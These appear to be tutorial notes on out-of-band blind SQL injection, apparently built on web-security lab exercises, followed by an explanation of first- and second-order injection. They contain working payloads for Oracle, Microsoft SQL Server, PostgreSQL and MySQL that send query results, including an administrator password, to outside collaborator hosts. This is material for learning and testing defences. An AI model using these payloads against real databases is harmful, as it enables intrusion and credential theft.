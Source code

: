 


An application might carry out the same SQL query as the previous example but do it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, but none of the techniques described so far will work. The application's response doesn't depend on the query returning any data, a database error occurring, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. These can be triggered based on an injected condition to infer information one piece at a time. More usefully, data can be exfiltrated directly within the network interaction.

`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

Payload:

`TrackingId=SXiB94mO9w4AdDt8' UNION SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//zjmepd70qh5jap70t5mnwb1vqmwdkd82.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`


#### Data exfiltrate

| Database       | Technique                                                                                                                                                                         |
| -------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Oracle**     | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'                                                           |  | (SELECT YOUR-QUERY-HERE) |  | '.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`                                       |
| **Microsoft**  | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`                                                    |
| **PostgreSQL** | `create OR replace function f() returns void as $$ declare c text; declare p text; begin SELECT into p (SELECT YOUR-QUERY-HERE); c := 'copy (SELECT '''') to program ''nslookup ' |  | p                        |  | '.BURP-COLLABORATOR-SUBDOMAIN'''; execute c; END; $$ language plpgsql security definer; SELECT f();` |
| **MySQL**      | The following technique works on Windows only: `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\\a'`                                                         |


`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

Payload:

```TrackingId=xUHDNyHYioHCjZXM' UNION SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT password FROM users WHERE username='administrator') ||'bq5qwpecxtcvh1ec0htz3n87xy3prrfg.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--```

## Type of ordered injection

First-order SQL injection occurs when the application processes user input from an HTTP request and incorporates the input into a SQL query in an unsafe way.

Second-order SQL injection occurs when the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability occurs at the point where the data is stored. Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into a SQL query in an unsafe way. For this reason, second-order SQL injection is also known as stored SQL injection.

Second-order SQL injection often occurs in situations where developers are aware of SQL injection vulnerabilities, and so safely handle the initial placement of the input into the database. When the data is later processed, it is deemed to be safe, since it was previously placed into the database safely. At this point, the data is handled in an unsafe way, because the developer wrongly deems it to be trusted.
